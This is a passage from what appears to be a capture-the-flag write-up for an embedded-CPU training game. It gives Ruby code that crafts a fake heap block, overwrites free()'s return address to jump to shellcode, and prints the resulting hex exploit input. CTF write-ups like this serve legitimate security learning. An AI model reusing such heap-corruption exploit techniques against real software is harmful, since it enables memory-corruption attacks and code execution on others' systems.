 
def cfill(bucket: 0, n: 5)
  (1..n).collect { ccmd(cname(bucket: bucket)) }.join
end
{% endhighlight %}

Playing with the above we notice that we are able to overwrite memory in the heap area to our choosing. And now comes the part where I've cheated. My first approach was to take the easy way exploit I did for Algiers and use it here - it didn't work, and I think that's because during hash table resizing `<malloc>` is called before `<free>` and the whole thing just falls apart (either with heap exhaustion, infinite loop or unaligned load). So I read the Phrack articles and decided that the allocation system here is simpler. It turns out it really isn't, and the proper attack is to create a fake block that's valid (and hence passes the `<malloc>` stage), but overwrites `<free>` return address on `<free>`. Having that we can simply return to wherever we've put the shellcode.

{% highlight ruby %}
fake_free_block_ptr = 0x50a2
ptr_to_retaddr = 0x3dce
orig_retaddr = 0x49a2
new_retaddr = 0x3e66
fake_prev_block_ptr = 0x508a

fake_prev_block = [ptr_to_retaddr - 4, 0x0101, 0xffff & ~1].pack('s<*')
header = [ptr_to_retaddr - 4, fake_free_block_ptr, \
          (new_retaddr - 6 - orig_retaddr) & 0xffff | 1].pack('s<*')
fake_free_block = [fake_prev_block_ptr, 0x503c + (3 * 0x60), 0xffff & ~1].pack('s<*')
shellcode = '324000ff30401000'

flag = cfill(n: 4)
flag += ccmd(cname(prefix: fake_prev_block))
flag += ccmd(cname(prefix: header + fake_free_block))
flag += cfill(n: 6)
flag += '32324000ff30401000'.from_hex
{% endhighlight %}

Interestingly the hall of fame tables report the shortest flag at 0x3d bytes, so there is much room for improvement.

**Flag**:

{% highlight ruby %}
puts flag.to_hex
6e6577206820313b6e6577207020313b6e6577207820313b6e657720616120313b6e657720ca3d0101feff6420313b6e657720ca3da250bff48a505c51feff6220313b6e657720616920313b6e657720617120313b6e657720617920313b6e657720626220313b6e657720626a20313b6e657720627220313b32324000ff30401000
{% endhighlight %}

#### Summary

Hope the above explanations make sense. I wasn't making any notes until Addis Ababa, and then the notes I did afterwards are rather *chaotic*, so I actually had to revisit most of the challenges to be able to write something more than just the flag. And speaking of flags: they can be ranked by both byte length and the execution time (in cycles) that it took the CPU to open the door. I didn't pay any attention to the second measure, and for the byte length I didn't make the most efficient flags for every challenge - so there is a potential to revisit.
